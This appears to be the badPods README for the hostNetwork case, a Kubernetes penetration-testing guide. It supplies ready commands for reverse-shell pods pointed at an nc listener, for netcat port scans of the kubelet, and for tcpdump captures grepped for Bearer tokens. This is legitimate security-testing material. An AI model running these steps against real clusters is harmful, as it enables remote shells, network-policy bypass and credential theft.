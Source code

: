 # Bad Pod #6: hostNetwork

If you only have `hostNetwork=true`, you can't get privileged code execution on the host directly, but if your cross your fingers you might still find a path to cluster admin. There are two potential escalation paths: 
* **Sniff traffic** - You can use `tcpdump` to sniff unencrypted traffic on any interface on the host. You might get lucky and find `service account` tokens or other sensitive information that is transmitted over unencrypted channels.
* **Access services bound to localhost** - You can also reach services that only listen on the host’s loopback interface or are otherwise blocked by network polices. These services might turn into a fruitful privilege escalation path.
* **Bypass network policy** - If a restrictive network policy is applied to the namespace, deploying a pod with `hostNetwork=true` allows you to bypass the restrictions because you are bound to the host's network interfaces, and not the pod. 
## Table of Contents
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
  - [Deleting resources](#deleting-resources)
- [Post Exploitation](#post-exploitation)
  - [Install tcpdump and sniff traffic](#install-tcpdump-and-sniff-traffic)
  - [Investigate local services](#investigate-local-services)
  - [Attacks that apply to all pods, even without any special permissions](#attacks-that-apply-to-all-pods-even-without-any-special-permissions)
- [Demonstrate impact](#demonstrate-impact)
- [References and further reading:](#references-and-further-reading)


# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
kubectl exec -it hostnetwork-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/[RESOURCE_TYPE]/hostnetwork-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep hostnetwork-exec-[RESOURCE_TYPE]      
kubectl exec -it hostnetwork-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe hostnetwork-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
nc -nvlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/hostnetwork/[RESOURCE_TYPE]/hostnetwork-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
kubectl delete pod hostnetwork-exec-pod
kubectl delete cronjob hostnetwork-exec-cronjob
```


# Post Exploitation 

## Install tcpdump and sniff traffic 
*If you can't install tools to your pod (no internet access), you will have to change the image in your pod yaml to something that already includes `tcpdump`, like https://hub.docker.com/r/corfr/tcpdump*

```bash
apt update && apt -y install tcpdump net-tools netcat
```
You now have a few options for next steps: 

**See if the `kubelet` read port (10255/tcp) is open on any of the node's IPs**
```bash
nc -zv 10.0.0.162 10255
Connection to 10.0.0.162 10255 port [tcp/*] succeeded!
nc -zv 172.17.0.1 10255
Connection to 172.17.0.1 10255 port [tcp/*] succeeded!
```

**If the read port is open, run `tcpdump`, recording the output to a file for a few minutes**

**Warning:** Sniffing on an interface with a lot of traffic can cause the interface to DROP traffic, which is not what you want in an production environment. I suggest picking one port at a time for your packet captures (e.g., 10255, 80, 8080, 3000 25, 23)
**Warning:** Always run `tcpdump` with the `-n` flag. This turns off name resolution, and if you don't, the name resolution will bring the capture, and potentially the host, to its knees. 

```bash
tcpdump -ni [host or docker interface name] -s0 -w kubelet-ro.cap port 10255
```

**Stop the capture and read the file with `tcpdump`.  Tip: Use the `-A` flag to only show the printable characters and hunt for things like tokens with `grep`** 

```bash
tcpdump -ro kubelet-ro.cap -s0 -A
tcpdump -ro kubelet-ro.cap -s0 -A | grep Bearer
```

Cross your fingers and look for secrets.  If you are lucky, you might even get a jwt. If you are really lucky, that token might be associated with a service account in `kube-system`.


## Investigate local services
```bash
curl https://localhost:1234/metrics
```

## Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

# References and further reading: 
